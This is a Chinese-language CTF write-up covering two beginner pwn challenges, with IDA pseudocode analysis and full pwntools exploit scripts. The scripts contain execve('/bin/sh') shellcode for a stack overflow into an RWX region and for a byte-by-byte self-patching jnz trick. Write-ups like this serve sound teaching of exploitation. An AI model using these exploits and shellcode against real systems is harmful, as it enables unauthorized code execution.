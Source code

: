 ```yaml
---
title: pwn_shellcode
date: 2019-09-24 23:03:45
tags: [pwn]
categories: [pwn]
copyright: true
description: <center>几道基础pwn shellcode问题</center>
photo: "http://r.photo.store.qq.com/psb?/V13BnVsC23MbK8/FmHGOBZ*7XP2d0.teLaIETv7qBeuAYHFW0jfCfdfZ50!/r/dLYAAAAAAAAA"
---
```

---

# Command Line

放入IDA分析伪代码：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-10h]

  printf("0x%lx\n", &v4, envp);
  __isoc99_scanf("%s", &v4);
  return 0;
}
```

可以知道该程序输出了v4的地址，然后我们使用checksec查看程序是否存在RWX段：

{% asset_img RWX.png %}

发现是存在RWX段的，然后在IDA中调试程序，使用`Ctrl+s`，查看printf打印出地址，发现地址所在栈是RWX的。因此很容易想到直接栈溢出然后劫持RIP，运行一段shellcode即可。因为v4距离RBP差16字节，所以返回地址（shellcode在栈中的地址）为程序打印出来的地址加上32（插入shellcode）字节的位置。exp如下：

```python
from pwn import *

io = process('./pwn1')

shellcode_addr = int(io.recv()[:-1],16)+0x20
shellcode = '\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05'

payload = '\x90'*24+p64(shellcode_addr)+shellcode

io.sendline(payload)

io.interactive()
```

# apprentice_www

首先checksec查看这个文件，发现没有RWX段。放入IDA，分析伪代码：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  alarm(0x1Eu);
  setup(main);
  return butterflySwag();
}
```

main函数里面很简单，调用了alarm函数反调试，同时调用了setup和butterflySwag函数。然后查看这两个函数

```c
//setup()
int __cdecl setup(int a1)
{
  int result; // eax
  signed int i; // [esp+18h] [ebp-10h]

  for ( i = 0; i <= 2; ++i )
    result = mprotect((void *)((i << 12) + (a1 & 0x8048000)), 0x1000u, 7);
  return result;
}
```

看到setup函数后，发现调用了mprotect函数，setup函数的作用就是将`0x8048000~0x804a000`段都改为RWX段。于是有一个模糊思路，就是栈溢出劫持eip然后在RWX段上执行shellcode。

```c
int butterflySwag()
{
  _BYTE *v1; // [esp+18h] [ebp-10h]
  unsigned int v2; // [esp+1Ch] [ebp-Ch]

  __isoc99_scanf((const char *)&unk_8048730, &v1);
  __isoc99_scanf((const char *)&unk_8048733, &v2);
  v2 = (unsigned __int8)v2;
  *v1 = v2;
  if ( v2 )
  {
    if ( v2 == 1 )
    {
      puts("All truly great thoughts are conceived by walking.");
    }
    else if ( v2 > 4 )
    {
      if ( v2 > 9 )
        puts("When you look into an abyss, the abyss also looks into you.");
      else
        puts("He who has a why to live can bear almost any how.");
    }
    else
    {
      puts("Without music, life would be a mistake.");
    }
  }
  else
  {
    puts("That which does not kill us makes us stronger.");
  }
  return 0;
}
```

可以看到v1所在地址被1字节的v2赋值，为了分析的更清晰，于是查看其汇编代码：

{% asset_img jnz.png %}

分析到`080485D2`处的时候，我们可以看到该处dl寄存器的值赋值给了eax所存储的地址处。其中edx的值是v2，eax的值是v1。那么我们想到，可以利用这段代码，将想要修改的地址修改成我们想要的东西。如果要输入一段shellcode，我们可以使用scanf来进行输入，所以我们注意到`080485D9`处的jnz指令，只要合理修改jnz的操作数，就可以直接跳到`0804859D`也就是第一个scanf前，然后输入shellcode。因为jnz的操作数是8位带符号数，所以我们计算出`080485D9-0804859D = ffc2`，所以只需要将jnz指令后的操作数改为c2就可以了。然后因为分析代码可知，我们将v1用来存储地址，v2用来存放将会在地址上赋值的内容。所以shellcode只能每次输入一个字节。所以需要不断跳到scanf直到输入完整的shellcode。然后再修改jnz指令，跑完程序。exp如下：

```python
#!/usr/bin/python
#coding:utf-8

from pwn import *

context.update(arch = 'i386', os = 'linux', timeout = 1)
io = remote('172.17.0.2', 10001)

patch_jne_address = 0x080485da		#jnz loc_80485E9所在地址，修改jnz后的操作数
shellcode_address = 0x080485db		#shellcode放置的地址

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
#xor eax, eax
#push eax
#push 68732F2Fh
#push 6E69622Fh
#mov ebx, esp
#push eax
#push ebx
#mov ecx, esp
#mov al, 0Bh
#int 80h

io.sendline(str(patch_jne_address))
io.sendline(str(0xc2))				#将jnz loc_80485E9改成jnz loc_804859D，重复执行两个call __isoc99_scanf读取shellcode

for i in xrange(len(shellcode)):			#逐字节写入shellcode到jnz loc_80485E9指令后面
	io.sendline(str(shellcode_address+i))
	io.sendline(str(ord(shellcode[i])))

io.sendline(str(patch_jne_address))
io.sendline(str(0x00))				#写完shellcode后改为jnz loc_80485DB，执行shellcode

io.recv()							#把垃圾数据读走

io.interactive()
```

